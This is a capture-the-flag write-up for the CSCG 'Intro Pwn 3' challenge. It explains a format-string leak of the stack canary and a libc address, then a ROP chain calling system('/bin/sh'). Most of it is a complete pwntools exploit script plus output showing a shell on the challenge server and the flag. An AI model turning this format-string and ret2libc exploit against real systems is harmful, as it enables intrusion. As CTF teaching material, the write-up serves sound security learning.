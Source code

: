 # Intro Pwn 3

Like in the other two Intro Pwn challenges we are given a binary and it's source code to work with.
There is not mutch different to the last challenge the only thing that changed is the `WINgardium_leviosa` function:
```c
void WINgardium_leviosa() {
    printf("They has discovered our secret, Nagini.\n");
    printf("It makes us vulnerable.\n");
    printf("We must deploy all our forces now to find them.\n");
    // system("/bin/sh") it's not that easy anymore.
}
```
It doesn't call `system` anymore and this might seem like a minor change, but is actually a lot more difficult now. Because the source code is almost the same like last time we can use the same stragtegy to gain rip controll, but what do we do then. We cannot just call that one function, that will give us a shell. Of cause we could call `system` with the `/bin/sh` string, but for this to work we need to get the randomized address of `system`, becaue there is no plt entry for it (The code never uses the system function so the compiler didn't include a `system@plt`). If we want to call `system`, then we have to call the system function inside libc and we have to pass the `/bin/sh` string to it. And we can solve both of these problems in one go.

Let's say we have got the address of `printf` in the libc binary, then we could calculate the offset of it to `system`, but this only works if we have got the exact libc, that is used on the server and that's where the Dockerfile comes in.
We can pull up our own Docker image and check the libc used and I just hoped that it would work.

That's the plan, but this plan would only work if we got the actual address of some libc function in the binaray, but how can we do this?

We have got a format string vulnerability in our binary, but we already "used" it to get a return pointer to defeat the random addresses for the main binary.
But as we have got rip control we can just call the `welcome` function, which introduces the bug, again.

But what do we do with a format expoit? We want to get the address of `printf` in the binary.

And here the `plt` comes in. The format string `%s` is used to print a string, but we can use it to read abetrary memory. The fact, that the buffer, that is used in the `printf` is stored makes that possible.    

## The Plan


* We do the exploit from last time and get rip control.
* With that we call `welcome` to trigger the `gets` and `printf` again
* We input a string that looks like this `%XX$s <padding><address of printf@got.plt>`
* The result will be the data at `printf@got.plt`, which is the address of `printf` in libc.
* We then calculate the addresses of `system` and `/bin/sh` in the libc binary (yes the libc binary has the string `/bin/sh` in it)
* We use the `AAAAAAAA` function again to get rip control with a ropchain looking like this `<pop rdi><addr of binsh><addr of system>`
(The string argument of system is strored in rdi and every c binary has a `pop rdi` rop gadget)


## The Script


```python
from pwn import *


p = process("./pwn3")
#p = remote("hax1.allesctf.net",9102)



print(p.readline())

#p.sendline(b"CSCG{NOW_GET_VOLDEMORT}")
p.sendline(b"CSCG{THIS_IS_TEST_FLAG}")


print(p.readline())
p.sendline("|".join(["%p"]*85))
p.readline()
p.readline()
p.readline()
leaks = p.readline().decode("utf-8").split("|")

input()
cannery = p64(int(leaks[38],16))

leak_ret = int(leaks[40],16)
printf_got = leak_ret + 0x20121a

welcome =  leak_ret - 0x14f
ret =      leak_ret -  0x38
pop_rdi =  leak_ret +  0x75
AAAAAAAA = leak_ret -  0xc6

print(f"leaked ret : {hex(leak_ret)}")
print(f"printf {hex(printf_got)}")

#First rip control. Ropchain <welcome><AAAAAAAA>
p.sendline(b"Expelliarmus\0" +  b"A" * cyclic_find(b"cnaa") + cannery + p64(ret) + p64(ret) + p64(welcome) + p64(AAAAAAAA))

print(p.readline())
print(p.readline())

# Format string exploit again: we use `%s` to get the data at the address `printf_got`
p.sendline(b"%7$s" + b"\0" * 4 +  p64(printf_got))


print(p.readline())
print(p.readline())
p.readline()
printf = int.from_bytes(p.read(6), "little")

libc_base = printf - 0x0000000000064d70

system = libc_base + 0x00000000000554e0
bin_sh = libc_base + 0x1b6613

print(hex(printf))
print(hex(system))
print(hex(bin_sh))
print(hex(pop_rdi))
print(p.readline())

# Second ropchain `<pop_rdi><addr of binsh><system>` a lot of `ret`s to align the stack
p.sendline(b"Expelliarmus\0" +  b"A" * cyclic_find(b"cnaa") + cannery + p64(ret)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(ret) +p64(ret)+p64(ret) + p64(system))

p.interactive()
```
And we get:
```bash
$ python pwnit.py
[+] Opening connection to hax1.allesctf.net on port 9102: Done
b'Enter the password of stage 2:\n'
b'+10 Points for Gryffindor!Enter your witch name:\n'

leaked ret : 0x55e79ae98d7e
printf 0x55e79b099f98
b'~ Protego!\n'
b'Enter your witch name:\n'
b'\xe2\x94\x8c\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x90\n'
b'\xe2\x94\x82 You are a Gryffindor! \xe2\x94\x82\n'
0x7f679aef6d70
0x7f679aee74e0
0x7f679b048613
0x55e79ae98df3
b' enter your magic spell:\n'
[*] Switching to interactive mode
~ Protego!
$ cat flag
CSCG{VOLDEMORT_DID_NOTHING_WRONG}
```

This was the last challenge that I solved in the CSCG and it is very rushed, I'm sorry if the writeup wan't that clear or if I forgot to explain something
